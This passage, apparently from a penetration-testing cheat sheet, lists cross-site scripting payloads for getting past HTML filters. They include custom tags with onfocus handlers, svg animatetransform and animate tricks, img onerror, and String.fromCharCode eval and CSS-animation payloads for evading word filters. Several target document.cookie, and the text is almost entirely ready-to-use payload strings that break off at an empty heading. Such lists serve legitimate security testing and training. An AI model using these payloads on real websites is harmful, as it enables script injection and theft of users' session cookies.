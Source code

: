 		<iframe src="http://example.com/comment=<body onresize=alert(document.cookie)>"

### Bypassing with a `custom` tag

- If `custom` tags are not filtered, then we can generate a payload and brute force every events with `zaproxy`.

		http://example.com/id=<mytag FUZZ=1>

- Then we generate a payload with the valid event.

		http://example.com/id=<mytag id=x onfocus=alert(document.cookie) tabindex=1>#x

		\\ This injection creates a custom tag with the ID x, which contains an onfocus event handler that triggers the alert function. The hash at the end of the URL focuses on this element as soon as the page is loaded, causing the alert payload to be called.

- We can then store the injection inside a web page>

		<script>location='http://example.com/id=<mytag id=x onfocus=alert(document.cookie) tabindex=1>#x';</script>

### Bypassing with `svg` tag

- In that case, the `svg` and `animatetransform` tag are allowed.
- That we scaned for events that could be allowed and we've found that `onbegin` is allow.

		<svg><animatetransform event=1>

- The final payload looks like this

		<svg><animatetransform onbegin=alert(1)>

### Bypassing with the `img` tag

		<img src=1 onerror=alert(1)>

## Bypass `Events` and `anchors` filtering

- In a case where `svg` tag would be allowed, then we can have a payload like this:

		<svg> <a> <animate attributeName=href values=javascript:alert(1) /> <text x=20 y=20>Click me</text> </a>

## Bypass words filtering

	<img src=x onerror="eval(String.fromCharCode(97,108,101,114,116,40,39,72,101,108,108,111,39,41))";>
	0\"autofocus/onfocus=alert(1)--><video/poster/onerror=prompt(2)>"-confirm(3)-"
	<style>@keyframes x{}</style><xss style="animation-name:x" onanimationend="alert(1)"></xss>
	<style>@keyframes x{}</style><xss style="animation-name:x" onanimationend="eval(String.fromCharCode(97,108,101,114,116,40,39,72,101,108,108,111,39,41))"></xss>

## Bypass `angle brackets` and `single quotes` and `backslash` escaped
